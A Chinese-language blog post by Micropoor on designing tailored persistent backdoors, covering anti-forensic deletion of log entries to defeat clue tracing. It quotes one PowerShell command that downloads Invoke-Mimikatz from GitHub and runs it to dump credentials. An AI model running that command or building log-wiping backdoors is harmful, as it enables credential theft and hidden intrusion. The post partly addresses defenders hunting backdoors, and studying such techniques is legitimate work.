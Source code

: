 专注APT攻击与防御
https://micropoor.blogspot.com/

**前者的话：**从第三季开始引入段子，让本枯燥的学术文章，也变得生动有趣。

第二季的Demo遵循人性五条来设计，回忆这其中五条：

**1：攻击方与防御方的本质是什么？**
增加对方的时间成本，人力成本，资源成本（不限制于服务器资源），金钱成本。
**2：安全公司的本质是什么？**
盈利，最小投入，最大产出。
**3：安全公司产品的本质是什么？**
能适应大部分客户，适应市场化，并且适应大部分机器。（包括不限制于资源紧张，宽带不足等问题的客户）
**4：安全人员的本质是什么？**
赚钱，养家。买房，还房贷。导致，快速解决客户问题（无论暂时还是永久性解决），以免投诉。
**5：对接客户的本质是什么？**
对接客户也是某公司内安全工作的一员，与概念4相同。
**6:线索排查与反线索排查**
那么这个demo离可高级可持续性渗透后门还有一段距离，这里引入第六条“**线索排查**”与“**反线索排查**”，在第二季的demo中，它生成了一个名为micropoor.txt的文件，如果经验丰富的安全人员可根据时间差来排查日记，demo的工作流程大致是这样的，打开notepad++，生成micropoor.txt，写入内容，关闭文件流。根据线索排查，定位到notepad++，导致权限失控。

在线索排查概念中，这里要引入“ABC”类线索关联排查，当防御者在得到线索A，顺藤到B，最后排查到目标文件C，根据五条中的第一条，demo要考虑如何删除指定日志内容，以及其他操作。来阻止ABC类线索关联排查。

**不要思维固死在这是一个nontepad++后门的文章，它是一个面向类后门，面向的是可掌握源码编译的类后门。**同样不要把思维固定死在demo中的例子，针对不同版本的NT系统，完全引用“powershell IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1');Invoke-Mimikatz”而关于bypass
UAC，已经有成熟的源码。或发送至远程或是写在本地的图片里，不要让知识，限制了后门的想象。这也正是第一季所说的：一个优秀的Microdoor是量身目标制定且一般不具备通用性的。是的，**一般不具备通用性**。

观看目前文章的一共有2类人，一类攻击方，一类防守方。假设一个场景，现在摆在你面前有一台笔记本，并且这台笔记本有明确的后门，你的任务，排查后门。我想所有人都会排查注册表，服务，端口，进程等。因为这些具备通用性，也同样具备通用性排查手段。

临近文章结尾，第三次引用：**在后门的进化对抗中，rootkit也发生了变化，最大的改变是它的系统层次结构发生了变化。**如果彻底理解了这段话。那么就要引用王健X爸爸的一句话：先定个小目标，控它个1825天。

/*
段子
*/

奈何厂商不重视后渗透攻击与持久性攻击，文章的结尾引用马X爸爸的一句话：厂商不改变，我们就改变厂商。

>   Micropoor
